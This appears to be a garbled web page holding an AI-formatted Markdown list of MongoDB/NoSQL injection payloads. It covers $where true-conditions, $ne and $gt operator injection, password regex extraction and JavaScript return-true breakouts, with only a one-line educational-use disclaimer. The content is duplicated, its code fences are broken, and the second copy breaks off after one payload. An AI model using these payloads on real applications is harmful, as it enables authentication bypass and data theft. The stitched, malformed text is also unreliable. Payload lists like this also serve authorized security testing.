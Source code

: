 Here's your updated content properly formatted in GitHub-flavored Markdown (`.md`) for clean readability and sharing in a GitHub repository:

```markdown
# MongoDB Injection Payloads

```javascript
true, $where: '1 == 1'
, $where: '1 == 1'
$where: '1 == 1'
', $where: '1 == 1'
1, $where: '1 == 1'
{ $ne: 1 }
', $or: [ {}, { 'a':'a
' } ], $comment:'successful MongoDB injection'
```

```javascript
db.injection.insert({success:1});
db.injection.insert({success:1});return 1;
db.stores.mapReduce(function() { { emit(1,1
```

```javascript
|| 1==1
' && this.password.match(/.*/)//+%00
' && this.passwordzz.match(/.*/)//+%00
'%20%26%26%20this.password.match(/.*/)//+%00
'%20%26%26%20this.passwordzz.match(/.*/)//+%00
```

```json
{$gt: ''}
[$ne]=1
```

```javascript
';return 'a'=='a' && ''=='
";return(true);var xyz='a
0;return true
```

> ⚠️ These payloads are intended for educational and authorized testing purposes only. Misuse may be illegal.

```

Let me know if you'd like:
- This saved as a `.md` file
- Additional annotations or categorizations
- Included in a README template with metadata (like author, usage, references)

# NoSQL

Here's your content formatted in GitHub `.md` (Markdown) format using fenced code blocks and appropriate syntax highlighting (JavaScript or JSON where applicable). Let me know if you'd like a table or categorized list too.

```markdown
# MongoDB Injection Payloads

Below are some common and advanced MongoDB injection payloads used for testing NoSQL injection vulnerabilities.

<details>
<summary>📄 Payload Examples</summary>

```javascript
true, $where: '1 == 1'
```